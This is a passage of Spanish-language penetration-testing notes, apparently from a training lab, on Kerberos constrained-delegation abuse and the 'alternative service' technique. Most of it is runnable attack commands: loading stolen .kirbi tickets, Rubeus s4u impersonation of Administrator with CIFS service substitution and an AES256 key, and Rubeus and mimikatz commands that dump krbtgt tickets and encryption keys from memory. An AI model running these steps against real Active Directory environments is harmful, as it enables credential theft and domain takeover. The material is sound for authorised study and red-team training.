 3. Utilizando el Ticket de servicio
tag : #tickets
```shell
#(powershell)
[System.IO.File]::WriteAllBytes("c:\users\administrator\desktop\dc2-tgt.kirbi", [System.convert]::FromBase64String("[..ticket..]"))
kerberos_ticket_use "c:\users\administrator\desktop\dc-2tgt.kirbi"

#(Alternativa)
execute-assembly /opt/tools/rubeus/Rubeus.exe ptt /ticket:[..ticket..]

```


##### Alternative Service 
¿Qué pasa si tenemos derechos de delegación solo para un SPN específico?
- Aun podemos abusar de una funcion de kerberos llamada "Servicio Alternativo" .Esto nos permite solicitar un TGS para otro servicio 'Alternativo' ,lo que nos da la posibilidad de solcitar un TGS para un servicio que el host admita

```shell
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe s4u /impersonateuser:Administrator /msdsspn:eventlog/dc-2.dev.cyberbotic.io /altservice:cifs /user:srv-2$ /aes256:babf31e0d787aac5c9cc0ef38c51bab5a2d2ece608181fb5f1d492ea55f61f05 /opsec /ptt
```

**example**: 
tag: #alterservice
```powershell
# Detect
Get-DomainComputer -TrustedToAuth | select -exp msds-allowedtodelegateto

samaccountname: WINDOWSSERVER$
-----
Result
-----
eventlog/dc-2.dev.evilcorp.local/dev.evilcorp.local
eventlog/dc-2.dev.evilcorp.local
eventlog/DC-2
eventlog/dc-2.dev.evilcorp.local/DEV
eventlog/DC-2/DEV
cifs/WKSTN-1.dev.evilcorp.local
cifs/WKSTN-1
----------

# Primero nos hacemos con el TGT de la maquina con el constrained delegation
execute-assembly /opt/tools/rubeus/Rubeus.exe triage
execute-assembly /opt/tools/rubeus/Rubeus.exe dump /luid:0x3e7 /service:krbtgt /nowrap || \
mimikatz sekurlsa::ekeys

# Impersonalizamos y Alternamos el servicio
execute-assembly /opt/tools/rubeus/Rubeus.exe s4u /user:WINDOWSSERVER$ /impersonateuser:Administrador /msdsspn:eventlog/dc-2.dev.evilcorp.local /altservice:cifs /ticket:[..KRBTGT/WINDOWSSERVER..] /nowrap

# Exportamos el ticket
echo "[..Ticket..]" | base64 -d > Cifs-Dc-2.kirbi

# Lo utilizamos
readlink -f Cifs-Dc-2.kirbi | xclip -sel clip
kerberos_ticket_use 
```
